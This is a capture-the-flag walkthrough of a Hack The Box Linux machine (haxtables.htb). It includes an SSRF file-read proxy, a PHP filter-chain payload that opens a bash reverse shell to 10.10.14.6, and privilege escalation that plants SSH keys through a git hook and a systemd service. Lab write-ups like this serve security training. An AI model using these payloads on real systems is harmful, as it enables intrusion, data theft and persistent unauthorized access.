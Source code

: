 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 10.10.11.198
nmap -p 22,80 -sCV 10.10.11.198
```
- Ports open: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Hostname discovered: `haxtables.htb`

### Website Enumeration
- `/index.php?page=...` suggests PHP file includes
- Site for "string and number converter"
- `api.haxtables.htb` referenced

### Subdomain Enumeration
```
wfuzz -u http://10.10.11.198 -H "Host: FUZZ.haxtables.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 1999
```
- Discovered: `api.haxtables.htb`, `image.haxtables.htb`

### Directory Bruteforce
```
feroxbuster -u http://haxtables.htb -x php
```
- Found: `/handler.php`, `/includes/`, etc.

## Shell as www-data

### SSRF Discovery
- `/handler.php` POSTs to API using `uri_path`
- SSRF by injecting `@10.10.14.6` into `uri_path`

### File Read via `file://`
```python
json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
```
- File read works, use Flask proxy to exfil files easily

### Flask Proxy
```python
from flask import Flask, Response
import requests
...
@app.route('/<path:file>')
def get_file(file):
    req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
    resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
    return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")
```

### LFI to RCE via Filter Chain
```bash
python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
```
- SSRF to include malicious filter payload to trigger RCE

## Shell as svc

### Privilege Escalation via Git Hook
- `www-data` can sudo as `svc` via `/scripts/git-commit.sh`
- Git repo in `/var/www/image/.git`, writable by `www-data`
- Write `post-commit` hook to insert SSH key for `svc`
```bash
echo 'mkdir -p /home/svc/.ssh
echo "<pubkey>" >> /home/svc/.ssh/authorized_keys
chmod 600 /home/svc/.ssh/authorized_keys' > .git/hooks/post-commit
chmod +x .git/hooks/post-commit
```
- Modify work-tree to include new file:
```bash
git --work-tree /etc add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```
- SSH as `svc`

## Shell as root

### Privilege Escalation via Systemd
- `svc` can run `sudo systemctl restart *`
- `/etc/systemd/system` is writable by `svc`

### Malicious Service
```ini
# /etc/systemd/system/0xdf.service
[Unit]
Description=0xdf command service

[Service]
ExecStart=/tmp/0xdf
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target
```
```bash
# /tmp/0xdf
mkdir -p /root/.ssh
echo '<pubkey>' > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
touch /tmp/script_ran
chmod +x /tmp/0xdf
```
- Trigger with: `sudo systemctl restart 0xdf`

## Root Access
- SSH as `root` using injected key
- Read `/root/root.txt`